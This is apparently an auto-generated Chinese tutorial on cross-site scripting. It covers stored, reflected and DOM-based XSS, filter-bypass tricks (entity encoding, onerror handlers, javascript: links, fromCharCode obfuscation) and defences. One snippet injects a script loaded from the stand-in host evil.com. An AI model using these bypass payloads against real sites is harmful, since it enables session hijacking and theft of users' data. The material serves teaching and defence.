 # XSS攻击类型与绕过技术的基本概念

## 1. 概述

跨站脚本攻击（Cross-Site Scripting，简称XSS）是一种常见的Web安全漏洞，攻击者通过在目标网站中注入恶意脚本，使得这些脚本在用户浏览器中执行，从而窃取用户数据、劫持会话或进行其他恶意操作。XSS攻击的核心在于利用Web应用程序对用户输入的不充分验证和过滤，导致恶意代码被注入并执行。

## 2. 原理

XSS攻击的基本原理是利用Web应用程序对用户输入的处理不当，将恶意脚本注入到页面中，并在用户浏览页面时执行这些脚本。攻击者通常通过以下步骤实施XSS攻击：

1. **输入注入**：攻击者在Web应用程序的输入字段（如表单、URL参数等）中插入恶意脚本。
2. **存储或反射**：恶意脚本被Web应用程序存储（存储型XSS）或直接反射（反射型XSS）到页面中。
3. **执行**：当用户访问包含恶意脚本的页面时，浏览器执行这些脚本，导致攻击者可以窃取用户数据、劫持会话等。

## 3. XSS攻击类型

根据恶意脚本的存储和执行方式，XSS攻击主要分为以下三种类型：

### 3.1 存储型XSS（Persistent XSS）

存储型XSS是指恶意脚本被永久存储在目标服务器上，当其他用户访问包含这些脚本的页面时，脚本会被执行。这种类型的XSS攻击通常发生在用户生成内容的场景，如论坛、评论系统等。

**示例**：
```html
<script>alert('XSS');</script>
```
攻击者在评论框中输入上述脚本，服务器将其存储并在其他用户访问该页面时执行。

### 3.2 反射型XSS（Reflected XSS）

反射型XSS是指恶意脚本通过URL参数或其他方式传递给服务器，服务器将其反射回页面并执行。这种类型的XSS攻击通常需要用户点击包含恶意脚本的链接。

**示例**：
```html
http://example.com/search?q=<script>alert('XSS');</script>
```
攻击者将上述URL发送给用户，用户点击后，服务器将恶意脚本反射到页面并执行。

### 3.3 DOM型XSS（DOM-based XSS）

DOM型XSS是指恶意脚本通过修改页面的DOM结构来执行，而不需要服务器端的参与。这种类型的XSS攻击通常发生在客户端JavaScript代码中。

**示例**：
```javascript
document.getElementById('output').innerHTML = location.hash.substring(1);
```
攻击者通过URL的hash部分注入恶意脚本，如：
```html
http://example.com/#<script>alert('XSS');</script>
```
页面中的JavaScript代码将恶意脚本插入到DOM中并执行。

## 4. XSS绕过技术

为了绕过Web应用程序的安全防护措施，攻击者开发了多种技术来隐藏或混淆恶意脚本，使其难以被检测和过滤。以下是一些常见的XSS绕过技术：

### 4.1 编码绕过

攻击者通过使用不同的编码方式（如HTML实体编码、URL编码、Unicode编码等）来隐藏恶意脚本，使其绕过输入过滤。

**示例**：
```html
<script>alert('XSS');</script>
```
使用HTML实体编码后：
```html
&#x3C;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3E;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x27;&#x58;&#x53;&#x53;&#x27;&#x29;&#x3B;&#x3C;&#x2F;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3E;
```

### 4.2 事件处理器绕过

攻击者利用HTML元素的事件处理器（如`onclick`、`onload`等）来执行恶意脚本，绕过基于标签的过滤。

**示例**：
```html
<img src="x" onerror="alert('XSS');">
```
当图片加载失败时，`onerror`事件处理器会执行恶意脚本。

### 4.3 JavaScript伪协议绕过

攻击者使用JavaScript伪协议（`javascript:`）来执行恶意脚本，绕过URL过滤。

**示例**：
```html
<a href="javascript:alert('XSS');">Click me</a>
```
用户点击链接时，JavaScript伪协议会执行恶意脚本。

### 4.4 动态脚本生成绕过

攻击者通过动态生成脚本标签或使用`eval`函数来执行恶意脚本，绕过静态过滤。

**示例**：
```javascript
var script = document.createElement('script');
script.src = 'http://evil.com/malicious.js';
document.body.appendChild(script);
```
动态生成的脚本标签会加载并执行恶意脚本。

### 4.5 混淆绕过

攻击者通过混淆恶意脚本的语法和结构，使其难以被检测和过滤。

**示例**：
```javascript
eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41));
```
通过将`alert('XSS')`转换为字符代码并执行，绕过基于字符串的过滤。

## 5. XSS攻击的危害

XSS攻击可能导致以下严重后果：

1. **窃取用户数据**：攻击者可以通过恶意脚本窃取用户的Cookie、会话令牌等敏感信息。
2. **劫持用户会话**：攻击者可以利用窃取的会话令牌冒充用户进行恶意操作。
3. **篡改页面内容**：攻击者可以修改页面内容，插入虚假信息或恶意链接。
4. **传播恶意软件**：攻击者可以通过恶意脚本传播恶意软件，感染用户设备。
5. **钓鱼攻击**：攻击者可以利用XSS漏洞进行钓鱼攻击，诱骗用户输入敏感信息。

## 6. 防御措施

为了有效防御XSS攻击，Web应用程序应采取以下措施：

1. **输入验证和过滤**：对用户输入进行严格的验证和过滤，确保输入内容符合预期格式。
2. **输出编码**：在将用户输入输出到页面时，进行适当的编码，防止恶意脚本执行。
3. **使用安全框架**：使用安全框架（如CSP、X-XSS-Protection等）来增强Web应用程序的安全性。
4. **定期安全审计**：定期进行安全审计，发现并修复潜在的安全漏洞。

## 7. 结论

XSS攻击是一种严重的安全威胁，攻击者通过注入恶意脚本，可以窃取用户数据、劫持会话或进行其他恶意操作。了解XSS攻击的类型和绕过技术，采取有效的防御措施，对于保护Web应用程序和用户数据的安全至关重要。通过严格的输入验证、输出编码和使用安全框架，可以显著降低XSS攻击的风险。

---

*文档生成时间: 2025-03-11 11:49:10*
